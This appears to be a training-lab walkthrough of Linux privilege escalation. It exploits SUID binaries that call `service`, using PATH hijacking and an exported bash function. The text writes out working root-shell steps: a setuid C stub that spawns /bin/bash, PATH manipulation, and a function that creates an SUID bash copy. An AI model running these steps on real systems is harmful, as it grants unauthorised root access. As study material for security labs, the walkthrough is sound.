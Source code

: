 
If you type in `env` you will get a list out of a good number of items.

`find / -type f -perm -04000 -ls 2> /dev/null`  - This is getting repetitive.  ;)

On this machine in the search, for this vuln, we're looking for these two paths

`/usr/local/bin/suid-env` and `/usr/local/bin/suid-env2`

Try to run those two and it looks like they start apache web server.

You can use `strings` to try and pull some info from these.

`strings /usr/local/bin/suid-env` or `strings /usr/local/bin/suid-env2`

If you print that out, you'll see that the last line, on this example, is `service apache2 start`. It's calling `service` in order to start that command.  But without the full path (`/usr/bin/service`) how does it know where to run `service` from?

Environmental Variables.  And we can (sometimes) take advantage of this.  We can add an environmental path and make a malicious `service` command that gives us a root shell.

Make our malicious `service`

`int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}`

You can use `echo` to echo that into a file, i.e. `/tmp/service.c`

Then compile it

`gcc /tmp/service.c -o /tmp/service`

Here's where we change the $PATH

`export PATH=/tmp:$PATH`

Once all that is done, rerun the suid-env and that should give you root.


Now for suid-env2.  If we run strings on that we get the call to the full path name, so our earlier trick won't work.  But we can still get around it.

We make a function.

`function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
`export -f /usr/sbin/service`

Then if we run the suid-env2, it will give us a root shell.
